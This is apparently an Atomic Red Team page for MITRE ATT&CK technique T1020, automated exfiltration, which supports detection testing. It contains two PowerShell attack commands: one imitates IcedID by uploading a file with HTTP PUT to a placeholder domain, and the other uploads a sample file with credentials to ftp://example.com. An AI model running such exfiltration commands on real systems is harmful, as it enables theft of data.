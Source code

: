 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection.(Citation: ESET Gamaredon June 2020) 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)

- [Atomic Test #2 - Exfiltration via Encrypted FTP](#atomic-test-2---exfiltration-via-encrypted-ftp)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Exfiltration via Encrypted FTP
Simulates encrypted file transfer to an FTP server. For testing purposes, a free FTP testing portal is available at https://sftpcloud.io/tools/free-ftp-server, providing a temporary FTP server for 60 minutes. Use this service responsibly for testing and validation only.

**Supported Platforms:** Windows


**auto_generated_guid:** 5b380e96-b0ef-4072-8a8e-f194cb9eb9ac





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sampleFile | Path of the sample file to exfiltrate. | String | C:&#92;temp&#92;T1020__FTP_sample.txt|
| ftpServer | FTP server URL. | Url | ftp://example.com|
| credentials | FTP server credentials. | String | [user:password]|


#### Attack Commands: Run with `powershell`! 


```powershell
$sampleData = "Sample data for exfiltration test"
Set-Content -Path "#{sampleFile}" -Value $sampleData
$ftpUrl = "#{ftpServer}"
$creds = Get-Credential -Credential "#{credentials}"
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile "#{sampleFile}" -Credential $creds
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "#{sampleFile}" -ErrorAction Ignore
```





<br/>
